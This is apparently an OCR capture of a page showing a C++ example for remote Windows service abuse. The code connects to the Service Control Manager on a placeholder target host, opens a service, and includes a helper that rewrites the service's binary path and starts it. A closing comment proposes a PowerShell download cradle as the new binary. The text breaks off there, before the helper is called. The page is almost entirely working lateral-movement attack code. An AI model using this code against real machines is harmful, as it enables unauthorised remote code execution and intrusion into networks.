 ### **C++ Code Example**

```cpp
#include <windows.h>
#include <iostream>

bool ModifyServiceAndExecute(SC_HANDLE hService, const char* newBinaryPath) {
    // Change the service binary configuration
    if (!ChangeServiceConfigA(
            hService,                      // Handle to the service
            SERVICE_NO_CHANGE,             // Service type (no change)
            SERVICE_DEMAND_START,          // Service start type (manual)
            SERVICE_ERROR_NORMAL,          // Error control (no change)
            newBinaryPath,                 // Path to the new binary
            NULL,                          // Load order group (no change)
            NULL,                          // Tag identifier (no change)
            NULL,                          // Dependencies (no change)
            NULL,                          // Service start name (no change)
            NULL,                          // Password (no change)
            NULL                           // Display name (no change)
    )) {
        std::cerr << "Failed to change service configuration." << std::endl;
        return false;
    }

    std::cout << "Service configuration updated successfully." << std::endl;

    // Start the service
    if (!StartServiceA(hService, 0, NULL)) {
        std::cerr << "Failed to start the service." << std::endl;
        return false;
    }

    std::cout << "Service started successfully." << std::endl;
    return true;
}

int main() {
    const wchar_t* targetHost = L"\\TARGET-HOST"; // Change this to the target hostname
    const wchar_t* serviceName = L"YourServiceName"; // Change this to the target service name

    // Step 1: Open a connection to the SCM on the target machine
    SC_HANDLE hSCManager = OpenSCManagerW(targetHost, NULL, SC_MANAGER_CONNECT);
    if (hSCManager == NULL) {
        std::cerr << "Failed to connect to the Service Control Manager on the target machine." << std::endl;
        return 1;
    }

    std::cout << "Connected to the Service Control Manager on " << targetHost << std::endl;

    // Step 2: Open the target service
    SC_HANDLE hService = OpenServiceW(hSCManager, serviceName, SERVICE_CHANGE_CONFIG | SERVICE_START);
    if (hService == NULL) {
        std::cerr << "Failed to open the target service." << std::endl;
        CloseServiceHandle(hSCManager);
        return 1;
    }

    std::cout << "Opened handle to service: " << serviceName << std::endl;

    // Step 3: Modify the service to execute a new binary (e.g., a PowerShell download cradle)
```